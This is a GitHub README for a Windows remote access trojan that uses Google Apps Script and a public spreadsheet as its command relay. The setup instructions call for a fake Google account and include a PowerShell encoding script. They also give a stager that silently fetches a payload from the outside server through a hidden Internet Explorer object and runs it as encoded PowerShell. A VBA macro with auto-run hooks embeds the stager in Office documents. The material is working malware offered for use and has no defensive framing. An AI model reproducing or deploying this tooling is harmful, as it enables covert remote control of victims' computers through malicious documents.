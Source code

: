 # google_RAT
A remote access tool for Windows systems using google apps script as the middle man

# Setup

### 1) Deploy Google Server and Spreadsheet Database
* Create a fake Google account
* Create a spreadsheet in the fake account's Google drive
* Make it public:
  * `File` > `Share...` > Give it a random name > `Get sharable link`
* Paste the link into the `SPREADSHEET_URL` variable in `server.js`
  * remove the `?usp=sharing` at the end of the URL. It should end in `/edit`
* Visit [Google Scripts](https://www.google.com/script/start/) and paste the code in `server.js`
* Publish the server:
  * Save and name the project something
  * `Publish` > `Deploy as web app`
    * Fill in the blank with something
    * Make sure the app is executed as `Me`
    * Make sure `Anyone, even anonymous` can access the app
  * `Review Permissions` > Select your fake account > `Advanced` > `Go to Untitled project (unsafe)` > enter 'Continue' > `Allow`
  * Copy the URL and paste it into `$SRV` of `client.ps1`

### 2) Develop Powershell Payload

* Run the following powershell to compress `client.ps1`:
```
$s = gc <path to client.ps1>
$x = [convert]::tobase64string([system.text.encoding]::unicode.getbytes($s))
$sx = [system.text.encoding]::unicode.getstring([convert]::frombase64string($x))
$sx = $sx.replace('  ', '')
$sx = $sx.replace(' = ', '=')
$sx = $sx.replace(' + ', '+')
$sx = $sx.replace(' - ', '-')
$sx = $sx.replace(' | ', '|')
$sx = $sx.replace('if (', 'if(')
$sx = $sx.replace('while (', 'while(')
$sx = $sx.replace(', ', ',')
$sx = $sx.replace('; ', ';')
$sx = $sx.replace('} ', '}')
$sx = $sx.replace('{ ', '{')
$sx = $sx.replace(' {', '{')
write-host $sx
```
* Take the output and paste it into the `PAYLOAD` variable of `server.js` and republish the web server. Browse to the public google web server URL to see your payload.

### 3) Embed Payload Stager into a Microsoft Document
* Use the following powershell stager to run the payload (replace `<SRV>` with the URL of the google web server):
```
$i=new-object -com internetexplorer.application;
$i.visible=$false;
$i.silent=$true;
$i.navigate2('<SRV>',14,0,$null,$null);
while($i.busy -or ($i.readystate -ne 4)){sleep -seconds 1};
$p=$i.document.lastchild.innertext;
$i.quit();
powershell.exe -v 2 -noE -NonI -nOpR -eNc $p;
```
* Use the same compression script for `client.ps1` for this payload to get the base64 encoded stager command
* Here is an example Microsoft VBS macro used to call the previously mentioned powershell stager:
```
Private Sub run()
  Dim cmd As String
  cmd = "wmic process call create 'powershell.exe -nOpR -nonI -eNc <stager>'"
  Set sh = CreateObject("WScript.Shell")
  res = sh.run(cmd,0,True)
End Sub
Sub AutoOpen()
  run
End Sub
Sub AutoExec()
  run
End Sub
Sub Auto_Open()
  run
End Sub
Sub Auto_Exec()
  run
End Sub
```

### 4) Deploying Python Shell
**NOTE:** Script requires python 3
* Copy the public link to the google apps server and run the following command:
  * `python script.py <url to google apps server>`
* Fun test commands:
  * `(new-object -com SAPI.SpVoice).speak('self destruct in 9 8 7 6 5 4 3 2 1 boom')`
  * `$e=new-object -com internetexplorer.application; $e.visible=$true; $e.navigate('https://www.youtube.com/watch?v=dQw4w9WgXcQ');`
